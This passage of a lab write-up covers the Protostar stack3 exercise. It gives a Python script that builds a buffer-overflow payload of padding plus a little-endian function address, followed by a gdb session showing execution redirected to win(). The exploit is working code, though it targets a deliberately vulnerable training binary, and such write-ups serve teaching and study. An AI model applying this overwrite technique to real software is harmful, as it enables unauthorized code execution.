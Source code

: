 some mistake happen big endian and little indian
to fix this
```css
user@protostar:/tmp$ vi stack.py
user@protostar:/tmp$ cat stack.py 
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIKKKKLLLLMMMMNNNNOOOOPPPPQQQQ"
padding += "\x24\x84\x04\x08"    #0x8048424
print(padding)
user@protostar:/tmp$ python stack.py > exp
user@protostar:/tmp$ 

```


```css
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack3 < /tmp/exp
calling function pointer, jumping to 0x08048424

Breakpoint 1, 0x08048475 in main (argc=1, argv=0xbffff854) at stack3/stack3.c:22
22	in stack3/stack3.c
(gdb) info registers
eax            0x8048424	134513700
ecx            0x0	0
edx            0xb7fd9340	-1208118464
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff740	0xbffff740
ebp            0xbffff7a8	0xbffff7a8
esi            0x0	0
edi            0x0	0
eip            0x8048475	0x8048475 <main+61>
eflags         0x200292	[ AF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) 
(gdb) si
win () at stack3/stack3.c:7
7	in stack3/stack3.c
(gdb) c
Continuing.
code flow successfully changed

Program exited with code 037.

```

>[!Note]
>(gdb) si => this is used for step into win() function
win () at stack3/stack3.c:7
7	in stack3/stack3.c
(gdb) c
Continuing.
code flow successfully changed
